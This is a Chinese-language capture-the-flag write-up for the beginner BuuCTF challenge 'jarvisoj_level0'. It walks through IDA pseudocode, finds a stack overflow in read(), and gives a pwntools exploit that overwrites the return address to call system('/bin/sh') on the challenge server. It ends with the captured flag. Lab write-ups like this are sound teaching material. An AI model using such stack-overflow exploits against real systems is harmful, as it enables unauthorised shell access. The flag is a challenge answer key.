 ```yaml
---
tags:
  - BuuCTF
  - 新手
---
```


# jarvisoj_level0

## 前置工作

下载附件，用 IDA 64 打开，找到主函数，反汇编，得到以下伪代码

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  write(1, "Hello, World\n", 0xDuLL);
  return vulnerable_function();
}
```

一看就知道这个 `vulnerable_function()` 有问题，直接进去，以下是这个函数的代码

```c
ssize_t vulnerable_function()
{
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF

  return read(0, buf, 0x200uLL);
}
```

高危函数就出来了，这个 `read()` 往一个 0x80 大小的数组中装入 0x200 大小内的数据，马上就知道是栈溢出

## 找 `/bin/sh`

按 Shift + F12 找到 `/bin/sh`，然后跟着找到了函数 `callsystem()`，以下是这个函数的伪代码

```c
int callsystem()
{
  return system("/bin/sh");
}
```

是我想要的东西了，然后 IDA 下面就会写出这个函数的地址，即 `0x400596`

## 编写 Exp

```python
from pwn import *

r = remote("node4.buuoj.cn", 25762)
func_addr = 0x400596
payload = b"A"*(0x80+0x8) + pack(func_addr, 64)  # 0x80 是 buf[128] 的大小，0x8 是 dup
r.sendline(payload)
r.interactive()
```

## 攻入靶机

运行 Exp，`ls`，`cat flag`，最后的结果是 `flag{d99f5551-5834-47ad-8661-a246d0d3f891}`